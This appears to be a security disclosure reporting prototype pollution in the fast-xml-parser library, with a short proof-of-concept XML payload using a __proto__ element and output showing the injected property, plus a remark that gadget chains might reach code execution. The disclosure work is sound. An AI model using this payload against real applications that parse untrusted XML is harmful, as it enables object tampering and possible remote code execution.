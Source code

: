 Taking an example code from the github repo to demonstrate the bug:


```js
const { XMLParser, XMLBuilder, XMLValidator} = require("fast-xml-parser");


let XMLdata = "<__proto__><polluted>hacked</polluted></__proto__>"

const parser = new XMLParser();
let jObj = parser.parse(XMLdata);


console.log(jObj.polluted) // should return hacked
```

![Code_G3UvvJcSv5](https://user-images.githubusercontent.com/31372554/218308540-86792929-3631-4580-8373-4651487418b5.png)

In the above screenshot you can see the `jObj` was polluted with a new property.

```js
jObj
>{}
jObj.__proto__
>{polluted: 'hacked'}
jObj.__proto__.polluted
>'hacked'
```

More information on prototype pollution can be found here: https://learn.snyk.io/lessons/prototype-pollution/javascript/

As it is common for developers to pass user controllable input to `XMLParser` , this can to do unexpected results. By chaining it with some prototype pollution gadget it might even can lead to RCE in some cases https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
